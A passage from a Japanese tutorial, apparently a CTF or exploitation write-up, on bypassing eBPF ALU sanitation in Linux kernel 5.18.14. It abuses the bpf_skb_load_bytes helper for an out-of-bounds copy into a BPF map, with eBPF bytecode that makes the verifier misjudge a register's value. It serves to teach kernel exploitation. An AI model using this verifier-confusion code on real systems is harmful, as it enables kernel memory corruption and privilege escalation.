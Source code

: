 ## ALU sanitationの回避
幸いにも今回の対象であるカーネルv5.18.14では、ALU sanitationを回避する方法が存在します。考え方としては、ポインタへの（範囲外になる）加減算がパッチされてしまうので、既存のヘルパー関数にその処理をやってもらおうという発想になります。

一般ユーザーから使えるヘルパー関数は少ないですが、オフセットやサイズを引数に取る関数を調べてみましょう。すると、ソケットフィルタでは例えば[`skb_load_bytes`](https://elixir.bootlin.com/linux/v5.18.14/source/net/core/filter.c#L1720)という関数が使えます。
```c

BPF_CALL_4(bpf_skb_load_bytes, const struct sk_buff *, skb, u32, offset,
	   void *, to, u32, len)
{
	void *ptr;

	if (unlikely(offset > INT_MAX))
		goto err_clear;

	ptr = skb_header_pointer(skb, offset, len, to);
	if (unlikely(!ptr))
		goto err_clear;
	if (ptr != to)
		memcpy(to, ptr, len);

	return 0;
err_clear:
	memset(to, 0, len);
	return -EFAULT;
}

static const struct bpf_func_proto bpf_skb_load_bytes_proto = {
	.func		= bpf_skb_load_bytes,
	.gpl_only	= false,
	.ret_type	= RET_INTEGER,
	.arg1_type	= ARG_PTR_TO_CTX,
	.arg2_type	= ARG_ANYTHING,
	.arg3_type	= ARG_PTR_TO_UNINIT_MEM,
	.arg4_type	= ARG_CONST_SIZE,
};
```
この関数は、パケットの内容をBPF側（マップやスタック）にコピーできます。
第一引数をコンテキスト、第二引数をコピーしたいパケットデータのオフセット、第三引数をコピー先のバッファ、第四引数をコピーするサイズに指定します。コピー元はパケットデータなので、`write`でソケットに送ったデータがコピーされます。
この関数を呼び出す際に引数が範囲外でないかを判断しますが、ALU sanitationの影響は受けません。したがって、関数内部で範囲外へのデータコピーが実現できます。

実際に試してみましょう。今、BPFマップのデータサイズは8なので、8バイト以上コピーできれば成功です。
試しに検証器が1と判断し、実際の値が0x10であるようなレジスタを作ります。`write`で0x10バイト以上のデータを送り、それがマップにコピーされているかをgdbで確認します。（サイズとして0（と推測される値）を渡すと検証器に警告されるので注意）
```c
...
    // R1 --> 0 / actual: 1
    BPF_ALU64_REG(BPF_ADD, BPF_REG_1, BPF_REG_2),
    BPF_MOV32_REG(BPF_REG_1, BPF_REG_1),
    BPF_ALU64_IMM(BPF_SUB, BPF_REG_1, 1),

    // R1 --> 1 / actual: 0x10
    BPF_ALU64_IMM(BPF_MUL, BPF_REG_1, 0x10-1),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_1, 1),

    // map[0]に書き込み（ALU sanitationの回避）
    BPF_MOV64_IMM(BPF_REG_ARG2, 0),              // arg2=offset (0)
    BPF_MOV64_REG(BPF_REG_ARG3, BPF_REG_9),      // arg3=to (&map[0])
    BPF_MOV64_REG(BPF_REG_ARG4, BPF_REG_1),      // arg4=len (1/0x10)
    BPF_MOV64_REG(BPF_REG_ARG1, BPF_REG_8),      // arg1=skb
    BPF_EMIT_CALL(BPF_FUNC_skb_load_bytes),
...
```

[^1]: Linuxカーネルのバージョンは5.18.14です。
[^2]: スタックの範囲内だが、値の範囲外